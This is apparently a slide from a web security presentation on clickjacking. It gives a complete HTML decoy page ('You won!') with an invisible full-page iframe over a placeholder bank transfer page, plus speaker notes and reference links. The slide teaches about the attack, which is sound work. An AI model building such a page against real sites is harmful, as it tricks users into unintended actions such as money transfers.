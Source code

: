```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Clickjacking
---
```

<h1>Hijacking user's clicks</h1>

<Transform scale="1">

```html {all|13-24}
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Decoy web page</title>
</head>
<body>
  <div>
    <h1>You won!</h1>
    <p>Click DECOY BUTTON to get your prize!</p>
  </div>
  <div style="position: absolute; left: 25%; top: 35%;">
    <!-- never gets clicked since the iframe covers the entire page -->
    <button type="button" style="border-color: red; border-width: 2px; color: red;">
      DECOY BUTTON
    </button>
  </div>
  <!-- this iframe captures all clicks, since it covers the entire page -->
  <iframe style="opacity: 0;" width="680" height="480" scrolling="no"
    src="https://vulnerable-bank.com/transfer.html">
  </iframe>
</body>
</html>
```

</Transform>

<!--
Clickjacking (aka UI redressing) stands for click hijacking.

The HTML document rendered in the iframe (e.g. https://vulnerable-bank.com/transfer.html) could even be a legit website, but it's rendered in a decoy web page that tricks the user into clicking on a button/link that the user does not see.

- [Clickjacking (UI redressing)](https://portswigger.net/web-security/clickjacking)
- [Clickjack attack – the hidden threat right in front of you](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)

[Burp Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit) makes it quicker and easier to test for clickjacking vulnerabilities.

An HTTP header that start with an "X-" is not part of the HTTP spec. Such header is called custom header.
-->
